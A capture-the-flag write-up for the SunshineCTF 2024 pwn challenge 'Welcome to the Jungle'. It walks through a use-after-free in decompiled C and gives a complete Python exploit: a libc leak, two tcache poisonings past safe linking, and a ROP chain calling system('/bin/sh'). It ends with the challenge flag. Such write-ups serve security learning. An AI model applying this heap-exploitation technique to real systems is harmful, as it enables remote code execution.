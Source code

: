 # Welcome to the Jungle!
> ### Category: pwn
>
> Welcome to the Jungle, brave explorer! You’ve found yourself in the depths of a treacherous wilderness, armed with little more than a knapsack of questionable supplies and your wits. Somewhere out there, a sly genie holds the key to knowledge that could help you escape… if you can charm it right. But beware: this jungle’s full of pitfalls, lurking tigers, and hidden mysteries. Only those with a keen eye for detail (and maybe a knack for bending reality a bit) will make it out with the flag. Can you navigate the heap of pitfalls, uncover secrets, and outsmart the genie? Remember, fortune favors the bold—and sometimes the lucky!
>
> `nc 2024.sunshinectf.games 24005`
>
> ### Attachments
> `jungle.bin`
> `libc.so.6`

## Overview
In this challenge you get 25 turns during which you can:
- remove an item from one of 6 pockets (free a chunk from the heap)
- put an item in one of the pockets (optionally allocate a chunk of 0x40 bytes and write to it)
- respond to a randomly chosen danger by using an item from a given pocket (print the contents of a chunk, in one case leak the address of `printf`)

## UAF
The function for removing an item for a pocket has interesting behaviour:
```c
void remove_from_pocket(uint pocket) {
  if ((knapsack[(int)pocket] == (char *)0x0) || (used[(int)pocket] != 1)) {
    printf("<<< Pocket %d is already empty.\n",(ulong)pocket);
  }
  else {
    free(knapsack[(int)pocket]);
    printf("<<< Removed item from pocket %d.\n",(ulong)pocket);
  }
  used[(int)pocket] = (uint)(used[(int)pocket] == 0);
  return;
}
```
First of all, it leaves a dangling pointer after freeing a chunk. Second of all, it always toggles the value of `state[pocket]` - if it's called on an empty pocket, the pocket will be marked as non-empty, which will make it possible to reuse it when adding supplies or fighting dangers:
```c
if (action != 2) goto LAB_00101c24;
printf("Select a pocket to place an item in (1-6) >>> ");
__isoc99_scanf(&"%d",&pocket);
getchar();
if ((pocket < 1) || (6 < pocket)) {
    puts("<<< Invalid pocket number.");
}
else {
    printf("Enter the item name >>> ");
    iVar1 = pocket;
    if (used[pocket] == 0) {
        buf = (char *)malloc(0x40);
        knapsack[iVar1] = buf;
        used[pocket] = 1;
    }
    item_name = knapsack[pocket];
    memset(item_name,0,0x18);
    read(0,item_name,0x40);
}
```
This piece of code will not allocate a new chunk if a pocket is marked as non-empty making it possible to write to freed chunks. As for fighting dangers:
```c
void use_item_on_danger(uint pocket_idx,char *hazard) {
  int iVar1;
  
  if (used[(int)pocket_idx] == 1) {
    printf("<<< Using item from pocket %d: %s\n",(ulong)pocket_idx,knapsack[(int)pocket_idx]);
    iVar1 = strcmp(knapsack[(int)pocket_idx],"Machete");
    if ((iVar1 == 0) && (iVar1 = strcmp(hazard,"tiger"), iVar1 == 0)) {
      puts("<<< You fend off the tiger with your Machete!");
      return;
    }
    iVar1 = strcmp(knapsack[(int)pocket_idx],"Medical Kit");
    if ((iVar1 == 0) && (iVar1 = strcmp(hazard,"malaria"), iVar1 == 0)) {
      puts("<<< You treat your malaria with the Medical Kit and recover!");
      return;
    }
    iVar1 = strcmp(knapsack[(int)pocket_idx],"Compass");
    if ((iVar1 == 0) && (iVar1 = strcmp(hazard,"lost"), iVar1 == 0)) {
      puts("<<< You find your way back with the Compass!");
      return;
    }
    iVar1 = strncmp(knapsack[(int)pocket_idx],"Genie",5);
    if (iVar1 == 0) {
      printf("<<< The genie unrolls a shimmering map showing a secret starting point: %p\n",printf);
    }
    else {
      printf("<<< The %s isn\'t effective against the %s.\n",knapsack[(int)pocket_idx],hazard);
    }
  }
  else {
    printf("<<< Pocket %d is empty.",(ulong)pocket_idx);
  }
  return;
}
```
Trying to use an item that starts with `"Genie"` triggers a leak of `printf`. Using anything other than one of the items provided initially or `"Genie"` prints the contents of a heap chunk, which makes it possible to read stuff from freed chunks.

## Putting it all together
With the UAF, it's possible to poison the tcache. The idea for the exploit is:
1. Put a genie somewhere, get the address of `printf`, calculate base address of libc
2. Leak the tcache key (the challenge uses glibc 2.39, long after safe linking has been introduced)
3. Perform 1st tcache poisoning - allocate a chunk on the `environ` variable from libc and then print its contents to get a stack leak
4. Use the stack leak to calculate the address of the function's return address
5. Perform 2nd tcache poisoning - allocate a chunk on the stack, overwrite the return address with a ropchain that calls `system("/bin/sh")`
6. Use random items for however many rounds you have remaining
7. Profit :)

## The exploit
Partially written by saushouse, partially by me:
```py
from gdb_plus import *

def remove_item(i):
    io.sendlineafter(b'>>>', b'3')
    io.sendlineafter(b'>>>', f'{i}'.encode())

def read_item_name(i):
    io.sendlineafter(b'>>>', b'1')
    io.sendlineafter(b'>>>', f'{i}'.encode())
    io.recvuntil(b": ")
    res = io.recvuntil(b"\n", drop=True)
    return res

def fill(i):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', f'{i}'.encode())
    io.sendlineafter(b'>>>', cyclic(64))

def put(i, by):
    io.sendlineafter(b'>>>', b'2')
    io.sendlineafter(b'>>>', f'{i}'.encode())
    io.sendlineafter(b'>>>', by)


libc = ELF("./libc.so.6")

dbg = Debugger('./jungle.bin', script='init-gef').remote('2024.sunshinectf.games', 24005)
io = dbg.p

dbg.c(wait=False)

# use the Genie to leak printf
put(1, "Genie")
io.sendlineafter(b'>>>', b'1')
io.sendlineafter(b'>>>', b'1')
io.recvuntil(b": ")
io.recvuntil(b": ")

printf_address = int(io.recvuntil(b"\n", drop=True)[2:].decode(), 16)

libc.address = printf_address - (libc.sym['printf'] - libc.address)
log.info(f'{libc.address = :016x}')

# leak the tcache key
remove_item(1)
remove_item(1) # remove the item 2nd time to mark it as not used to make it possible to read the data from the chunk
tcache_key = read_item_name(1)

# setup for 1st tcache poisoning
remove_item(6)
remove_item(2)
remove_item(3)
remove_item(3)

tcache_int = u64(tcache_key.ljust(8, b'\0'))

aligned_offset = 0x38
r4 = tcache_int ^ (libc.sym['environ'] - aligned_offset) # allocate some bytes away from the actual target to not overwrite it accidentally

put(3, p64(r4)) # poison the fwd pointer
put(6, b"AAAA") # chunk we don't care about
put(2, f"{'B' * (aligned_offset-1)}".encode()) # the actual chunk in libc

read_item_name(2)
stack_leak = io.recvuntil(b"\n", drop=True)
stack_leak_int = u64(stack_leak.ljust(8, b'\0'))

return_address = stack_leak_int - 304 # use gdb to calculate the offset
log.info(f'{return_address = :016x}')

# setup for 2nd tcache poisoning - use some chunks that weren't used before
remove_item(6)
remove_item(5)
remove_item(4)
remove_item(4)

bin_sh = next(libc.search(b'/bin/sh'))
system = libc.sym['system']

# find those with ROPgadget
pop_rdi_ret = 0x000000000010f75b + libc.address
ret = 0x000000000002882f + libc.address

ropchain = flat(pop_rdi_ret, bin_sh, ret, system, word_size=64) # the singular `ret` in the middle is necessary to have the stack properly aligned

r5 = tcache_int ^ (return_address - 0x8) # subtract 8 because otherwise the chunk won't be aligned and tcache will be mad

put(4, p64(r5)) # poison the fwd pointer
put(6, b'CCCCC') # some chunk we don't care about
put(5, b'D' * 8 + ropchain) # chunk on the stack

# do nothing interesting for the last few rounds
for i in range(5):
    read_item_name(1)

io.interactive() # :)
```

## Flag
`sun{W3lc0m3_2Th3_Jungl3__We_h4v3_n0_fUn}`